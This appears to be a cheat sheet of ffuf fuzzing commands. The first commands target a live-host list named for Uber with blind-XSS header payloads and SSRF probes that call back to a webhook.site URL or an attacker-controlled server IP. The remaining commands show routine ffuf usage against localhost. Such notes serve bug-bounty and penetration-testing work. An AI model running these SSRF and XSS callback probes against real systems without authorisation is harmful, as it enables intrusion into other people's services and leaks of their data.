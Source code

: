 

ffuf -c -u FUZZ1 -H "FUZZ2: FUZZ3" -w alive_uber.txt:FUZZ1 -w headers.txt:FUZZ2 -w blind_xss.txt:FUZZ3 -x http://192.168.196.1:8082 -mode clusterbomb -v 


ffuf -c -u HOST/?PROT=https://webhook.site/f4494fd5-bd02-4fd2-893d-22368ac954b8/HOST/PROT -w alive_uber.txt:HOST -w ssrf_params:PROT -x http://192.168.196.1:8082 -mode clusterbomb -r -v 


ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 

####################################
####################################

# Basic Usage
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080

# Basic Usage With a Cookie
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 -b "laravel_session=eyJpdiI6Ii8wQU11dTVlUkg2alRHUXBIVzlGSnc9PSIsInZhbHVlIjoiOWs3YllJWTdqNC9xa1pMeFRvMFh0OE1vRFpaWm9GSzFkRktVZS9yUHBDM0lIazZ4K0NsbndxWVIxQ05VZWhqZUZaR0RGQWlFdmdDc24yWllYRklGSXI5STd2b05Pam4yRXIwV1BUWkZhUnFLNUFzOWsycmRHcnlxS0FqRWNsSnEiLCJtYWMiOiI3ZTliMmM2YzIxOTExNDE0NmVjYTYyMGI4Nzg4YzJiYjNmNjVkNDI1YzEyODYwMzY5YzczNzY3NTUwZDk0OGYzIn0%3D;"

# Adding a delay
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 –p 1 –t 3

# Adding a delay (new method)
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 –rate 100

# Fuzzing 2 values
ffuf -w wordlist.txt:FUZZ -w actions-lowercase.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 

# Simple Filter
ffuf -w wordlist.txt:FUZZ -w actions-lowercase.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 -fw 1

# Simple Matcher
ffuf -w wordlist.txt:FUZZ -w actions-lowercase.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 -mc 302

# Custom Filters
ffuf -w wordlist.txt:FUZZ -w numbers.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 -fr "not found"

# Fuzzing Post Data
ffuf -w wordlist.txt -X POST -d "email=df%40fd.com&issue=dsafd&information=FUZZ" -u http://127.0.0.1:8000/vulnerability -replay-proxy http://127.0.0.1:8080

# Fuzzing Parameters (POST)
ffuf -w wordlist.txt -X POST -d "email=df%40fd.com&issue=dsafd&FUZZ=test" -u http://127.0.0.1:8000/vulnerability -replay-proxy http://127.0.0.1:8080

# Fuzzing Parameters (GET)
ffuf -w wordlist.txt -u http://127.0.0.1:8000/contact/submit?FUZZ=d%40d.com&issue=df -o output.txt -replay-proxy http://127.0.0.1:8080 

# Fuzzing JSON Post Data
ffuf -w wordlist.txt -X "PUT" -u http://127.0.0.1:8000/api/users/6 -H "Content-Type: application/json" -d "{'FUZZ':'test'}" -o output.txt -replay-proxy http://127.0.0.1:8080
